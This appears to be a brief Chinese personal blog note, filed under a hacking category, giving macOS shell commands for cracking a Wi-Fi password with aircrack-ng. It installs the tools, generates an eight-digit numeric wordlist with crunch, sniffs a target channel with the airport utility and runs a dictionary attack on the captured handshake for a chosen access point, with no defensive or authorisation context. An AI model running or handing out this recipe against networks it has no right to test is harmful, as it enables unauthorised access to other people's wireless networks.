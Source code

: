 ```yaml
---
title: aircrack-ng
toc: true
date: 2021-09-24 19:29:18
tags:
categories:黑

---
```


```bash
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport

brew install aircrack-ng

brew install crunch			# optional

crunch 8 8 0123456789 -o dic.txt			#生成字典

sudo airport -s

sudo airport 网卡名 sniff 目标信道		#一般情况下，网卡名=en0

aircrack-ng -w dic.txt -M 100 -f 80 -1 -a 2 -b **:**:**:**:**:** /tmp/airportSniff******.cap
```



## 参考资料

> - [**Mac上使用aircrack-ng破解Wi-Fi密码**](https://uare.github.io/2016/cracking-wifi-by-aircrack-ng-on-mac)


